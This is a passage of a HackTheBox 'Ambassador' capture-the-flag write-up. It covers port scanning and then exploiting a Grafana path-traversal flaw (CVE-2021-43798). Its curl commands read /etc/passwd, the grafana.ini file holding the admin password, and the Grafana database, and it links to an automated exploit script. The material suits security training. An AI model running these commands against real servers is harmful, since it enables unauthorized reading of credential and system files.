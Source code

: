 # Ambassador write-up

## 1. Description

This article is the write-up for the Ambassador box of HackTheBox.<br>
To begin, you need to be connected to the HackTheBox vpn.<br>


## 2. Port Enumeration

First, let's make a map of the host.<br>
What ports are open ?<br>
What services are running ?<br>

For this, we will use a combinaison of RustScan and Nmap.<br>

```rustscan IP -- -sC -sV -oN nmap_initial.txt```

This is the result of the scan :<br>

| PORT      | STATE SERVICE | REASON       | VERSION                                                              |
|-----------|---------------|--------------|----------------------------------------------------------------------|
| 22/tcp    | open          | ssh          | syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0) |
| 80/tcp    | open          | http         | syn-ack Apache httpd 2.4.41 ((Ubuntu))                               |
| 3000/tcp  | open          | ppp?         | syn-ack                                                              |
| 3306/tcp  | open          | nagios-nsca  | syn-ack Nagios NSCA                                                  |

On the port 22, an SSH server is running, but at this point, we don't have any credentials.<br>
On the port 80, an Apache web server is running, it must be interesting to start here.<br>
On the port 3000, the scan don't tell us much about it, but if you try to connect top http://IP:3000, we are greeted by a <strong>Grafana</strong> login page.<br>
On the port 3306, the scan output tell us that it is a Nagis NSCA service, but 3306 is a common port for a mysql server, and trying to connect to the server using :<br>
```mysql IP -u root -p```

indicate that a mysql server is running and accessible.


## 3. Web exploration

Let's begin with the web server running on port 80.<br>
There is only one thing on this webserver, a single post in which we can have a usefull information :<br>
<em>Use the <strong>developer</strong> account to SSH, DevOps will give you the password.</em>

We now have a username ! but not a password.. so let's continue to explore others services since running a directory scanner will not find us anything new.<br>

## 4. Grafana 

Grafana is a web application which allow us to monitor and analyse data from differents sources like databases.<br>
At the bottom of the login page, we can discover the version of the application :<br>
![image](https://user-images.githubusercontent.com/70477133/215295087-260beaff-580e-4d9b-b742-6bee59029c0f.png)

It is always good to search online for public exploits of popular applications on site like google, or [exploit-db](https://www.exploit-db.com/)<br>
The first links tell us about a <strong>[directory traversal](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-43798)</strong> that allow us to read sensitive file on the server<br>

This endpoint is vulnerable : http://IP/public/plugins/<pluginName>/../../../../../../../../fileToRead<br>
where pluginName is a plugin of Grafana like :<br>
- alertlist
- annolist
  
You can view a more complete list [here](https://grafana.com/blog/2021/12/07/grafana-8.3.1-8.2.7-8.1.8-and-8.0.7-released-with-high-severity-security-fix/)<br>
So, now, we can read sensitive data with :
```
curl --path-as-is http://IP:3000/public/plugins/alertlist/../../../../../../../../filename
```

  <strong>--path-as-is</strong> is needed, because other wise, curl will normalise the url as : http://IP:3000/public/plugins/alertlist/filename and this will not work.<br>

  We need to find usefull informations by reading important files like <strong>/etc/passwd</strong>:<br> 
```curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/passwd```

Which leak one user and confirm the one discovered previously :
```
developer:x:1000:1000:developer:/home/developer:/bin/bash
consul:x:997:997::/home/consul:/bin/false
```

Grafana store credentials in configurations like grafana.ini or defaults.ini which can be found at : 
/etc/grafana/grafana.ini
```curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini --output grafana.ini```

in which we can retrieve the admin password of Grafana : [REDACTED]
  
We can also dump the whole Grafana sqlite db at /var/lib/grafana/grafana.db
```curl --path-as-is http://10.10.11.183:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db --output grafana.db```
  
  

[Here](https://github.com/pedrohavay/exploit-grafana-CVE-2021-43798) is an automated script that allow to retrieve usefull files from Grafana, search for Grafana tokens and decrypt Grafana passwords.

